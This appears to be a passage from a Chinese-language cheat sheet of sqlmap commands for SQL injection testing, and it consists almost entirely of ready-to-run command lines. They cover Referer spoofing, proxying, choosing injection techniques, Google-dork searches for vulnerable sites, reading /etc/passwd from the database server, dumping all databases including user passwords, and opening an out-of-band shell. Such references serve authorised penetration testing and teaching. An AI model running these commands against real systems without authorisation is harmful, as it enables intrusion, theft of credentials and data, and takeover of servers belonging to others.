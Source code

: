 ```shell
# 说明：可以在请求中伪造HTTP中的referer，Sqlmap发送的HTTP请求头部默认无Referer字段。
# 注意：必须是level大于等于3才会尝试对referer注入
python sqlmap.py -u [url] --referer "http://www.baidu.com"  //指定referer

```

### 指定代理

```shell
python sqlmap.py -u [url] --proxy=http://127.0.0.1:8080 
```

### 指定发包间隔时间为5s

```shell
python sqlmap.py -u url --delay 5 
```

### 指定线程数

```shell
python sqlmap.py -u [url] --threads 3 
```

### 从数据库服务器读取文件

```shell
python sqlmap.py -u [url] --file-read "/etc/passwd" 
```





## 进阶参数

```shell
# --prefix 加前缀  --suffix 加后缀
python sqlmap.py -u [url] --prefix=" -- " --suffix=")"

# 指定注入模式 T-time/U-union/E-error/B-bool
python sqlmap.py -u [url] --technique T/U/E/B 

# 使用时间盲注指定延时时间为5s
python sqlmap.py -u [url] --technique T --time-sec 5 

# 使用googledork(google hacking语法)
python sqlmap.py -g inurl:.php?id=

# 指定数据库类型
python sqlmap.py -u [url] --dbms=mysql 

# 使用更多的语句测试url是否存在注入 1-3，3个等级
python sqlmap.py -u [url] --risk 2

# 通过sql注入漏洞获取数据所有信息 包括库名 dba 用户 密码等
python sqlmap.py -u [url] -a 

# 获取数据库banner信息
python sqlmap.py -u [url] -b 

# dump转存所有数据库内的数据
python sqlmap.py -u [url] --dump-all

# 获取一个外带shell，需要第三方模块支持
python sqlmap.py -u [url] --os-pwn 

```